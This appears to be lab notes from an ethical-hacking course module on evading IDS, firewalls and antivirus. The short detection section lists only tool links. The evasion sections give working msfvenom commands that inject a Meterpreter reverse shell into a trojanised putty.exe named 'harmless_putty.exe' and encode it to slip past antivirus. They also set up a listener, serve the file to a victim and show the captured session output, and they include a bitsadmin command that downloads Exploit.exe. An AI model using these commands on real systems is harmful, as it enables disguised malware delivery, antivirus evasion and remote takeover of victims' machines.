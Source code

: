 # Module 12

## Evading IDS, antivirus and Honeypots
Intrusion Detection Systems (IDS) add a critical security layer, making them prime targets. Attackers use sophisticated evasion techniques to bypass detection and compromise the infrastructure. Similarly, firewalls relying on predefined rules can be tricked by skilled attackers using various bypass methods to allow malicious traffic to pass unfiltered.

---

### 1. Intrusion Detection using various tools
The goal of the Intrusion Detection Analyst is to find possible attacks against a network.

#### 1.1 Detect Intrusion using snort
[Snort - Network Intrusion Detection & Prevention System](https://www.snort.org/)

#### 1.2 Detect Malicious traffic with Zone alarm free firewall
[ZoneAlarm Free Firewall](https://www.zonealarm.com/software/free-firewall)

#### 1.3 Detect Malicious traffic using HoneyBot
[HoneyBot](https://honeybot.software.informer.com)

#### 1.4 Deploy Cowrie Honeypot to Detect Malicious Network Traffic
Cowrie serves as an SSH and Telnet honeypot, capable of capturing brute-force attacks and the actions taken by attackers within the shell.
[GitHub - cowrie/cowrie: Cowrie SSH/Telnet Honeypot https://cowrie.readthedocs.io](https://github.com/cowrie/cowrie)

---

### 2. Evade Firewall using Evasion Techniques
<img width="428" height="575" alt="image" src="https://github.com/user-attachments/assets/a333df1e-0c81-4fb8-8f58-7872bb5c2bac" />

#### 2.1 Bypass firewall using Nmap
Add a rule in windows firewall to block all traffic from the attacking machine.
In Ping sweep, the host will appear as online
- `nmap -sP 192.168.18.0/24`  only discover which hosts are up
Zombie scan can bypass the firewall rule
- `nmap -sI 192.168.18.2 192.168.18.11`  .2 is the zombie, .11 is the target

#### 2.2 Bypass firewall rules using HTTP/ FTP Tunneling 
HTTPort is a tool that bypasses restrictive HTTP proxies. It tunnels blocked traffic (like email or FTP) through an allowed HTTP connection.

**It works by**:
1. Sending data to a remote server (HTTHost) outside the blocked network using a series of HTTP requests.
2. The proxy sees this as normal web surfing and allows it.
3. The HTTHost server then forwards the traffic to the intended destination.
> This method is reliable and features strong encryption, making proxy logs useless.
[HTTPort, secure TCP through HTTP tunneling](https://www.targeted.org/htthost/)

**Steps**:
You generated a basic, easily detectable payload:
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.111.208 LPORT=4444 -f exe -o payload.exe`
Generate a New, Encoded Payload:
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.111.208 LPORT=4444 -x template.exe -k -e x86/shikata_ga_nai -f exe -i 5 -o harmless_putty_encoded.exe`
You downloaded putty.exe to use as a legitimate template:
- `wget https://the.earth.li/~sgtatham/putty/latest/w32/putty.exe -O template.exe`
You injected your payload into that template to create a more evasive executable:
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.111.208 LPORT=4444 -x template.exe -k -f exe -o harmless_putty.exe`
**Result**: Your final payload is saved as harmless_putty.exe.

Start the Listener on Your Kali Machine
- `msfconsole -q`
- `use multi/handler`
- `set payload windows/meterpreter/reverse_tcp`
- `set LHOST 172.16.111.208`
- `set LPORT 4444`
- `exploit -j`

Open a new terminal and start a web server to host your harmless_putty.exe file so the victim can download it.
- `cd ~`
- `python3 -m http.server 80`

- Download on Victim Machine: On the victim machine (172.16.111.207), open a web browser and go to: http://172.16.111.208    
- Download the harmless_putty.exe file.    
- Execute the Payload: On the victim machine, run the harmless_putty.exe
- Catch the Shell: As soon as the payload is executed, you will see a message in your Metasploit console:

      [*] Sending stage (175774 bytes) to 172.16.111.207
      [*] Meterpreter session 1 opened (172.16.111.208:4444 -> 172.16.111.207:[PORT])
- Interact with the Session: Type the following command at the Metasploit prompt to interact with the victim: `sessions -i 1`
- You are all set! Your listener is active. Just transfer and run the payload on the victim machine to get your Meterpreter session.

#### 2.3 Bypass antivirus using metasploit templates
Attackers use msfvenom with the -x flag to embed a malicious payload into a legitimate, trusted executable file (like calc.exe). This tricks antivirus software into seeing the file as safe because it recognizes the trusted program's signature, allowing the hidden payload to bypass detection.

**How It's Done**
1. Acquire a Legitimate Template: Find a clean, signed executable from a trusted source. This will be your new template.
2. Inject the Payload: Use msfvenom to inject your malicious Metasploit payload (e.g., a reverse shell) into this legitimate executable.
3. The Bypass: The resulting file has the digital signature and code structure of the trusted software, but contains your hidden payload. AV is less likely to flag it because it appears to be a known-good program.

**Basic msfvenom Command**
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -x /path/to/legitimate_file.exe -k -f exe -o malicious_output.exe`
  - `-x /path/to/legitimate_file.exe`: Specifies your clean template.
  - `-k`: Tells Metasploit to preserve the template's original functionality alongside the payload. The legitimate program will still run to avoid suspicion.

---

#### 2.4 Bypass firewall using windows BITSAdmin
The utilty can be used to transfer files in windows command prompt.    
BITS (Background Intelligent Transfer Service) is an essential component of Windows XP and later versions of Windows operating systems. BITS is used by system administrators and programmers for downloading files from or uploading files to HTTP webservers and SMB file shares. BITSAdmin is a tool that is used to create download or upload jobs and monitor their progress.
bitsadmin /transfer Exploit.exe http://10.10.1.13/share/Exploit.exe c:\Exploit.exe

---
---
